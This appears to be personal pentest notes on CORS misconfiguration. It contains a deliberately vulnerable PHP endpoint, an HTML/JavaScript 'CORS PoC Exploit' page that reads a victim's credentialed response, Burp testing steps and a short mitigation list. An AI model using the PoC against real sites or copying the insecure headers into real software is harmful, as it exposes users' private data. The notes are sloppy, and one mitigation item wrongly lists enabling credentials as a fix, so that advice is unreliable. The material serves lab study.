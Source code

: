 # CORS Attack

ow HTTP Headers

Access-Control-Allow: \* or \<origin> or null

Access-Control-Credentials:

if Access Access-Control-Credentials: true

**is Vulnerable CORS**

```php
<?php
session_start();

if($_SESSION['islogin'] != 1){
	header("Location: login.php");
	die();
}
#vulnerablity here
$origin = "mydomain.com";
if ( strpos(@$_SERVER['HTTP_ORIGIN'], "mydomain.com") ){
	$origin = @$_SERVER['HTTP_ORIGIN'];
}

header("Content-Type: application/json");
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Credentials: true");

echo '{"name":"Guest user", "phone number":"0234235","email":"email@gmail.com","adddress":"street 3","own books":["Book one","Book two","Book three"],"private books":["book 4","book 5"]}';
```

POS (if data json use Content-Type = application/json)

```jsx
<!DOCTYPE html>
<html>
<head>
    <script>
        function cors() {
            var xhttp = new XMLHttpRequest();
            url = "<url>";
            xhttp.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    // Display the response in an alert
                    alert(this.responseText);
                    // Or display the response in the demo div
                    document.getElementById("demo").innerHTML = this.responseText;
                }
            };
            xhttp.open("GET", url, true);
            xhttp.withCredentials = true;
            xhttp.send();
        }
    </script>
</head>
<body>
    <center>
        <h2>CORS PoC Exploit</h2>
        <div id="demo">
            <button type="button" onclick="cors()">Exploit</button>
        </div>
    </center>
</body>
</html>

```

I will try to find this vuln Uing Burpsuit Come with me!

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

in this request allow credentials if

#### Testing For CORS Vulnerabilities

1. remove/add a domain or like attckerlocalhost

* Map the application • Test the application for dynamic generation • Does it reflect the user-supplied ACAO header? • Does it only validate on the start/end of a specific string? • Does it allow the null origin? \* or yourdoamin,com • Does it restrict the protocol? HTTP or https | 80,8080 or any think • Does it allow credentials?

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Click exploit B000000000M!

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mitigation

**1. restrict Allowed Origins**

**Access-control-Allow-Origin:** [**https://example.com**](https://example.com)

**2. Limit HTTP Methods**

**Access-control-Allow-Methods: GET, POST**

**3. Control Allowed Header**

**Access-Control-Allow-Headers: Content-Type, Authorization**

1. **Access-Control-Allow-Credentials: true**
2. **Validate Input and Origin**
3. **Content security Policy (CSP)**

**Content-Security-Policy: default-src 'self'; script-src 'self'** [**https://example.com**](https://example.com)

[http://localhost/labs/cors/info.php](http://localhost/labs/cors/info.php)
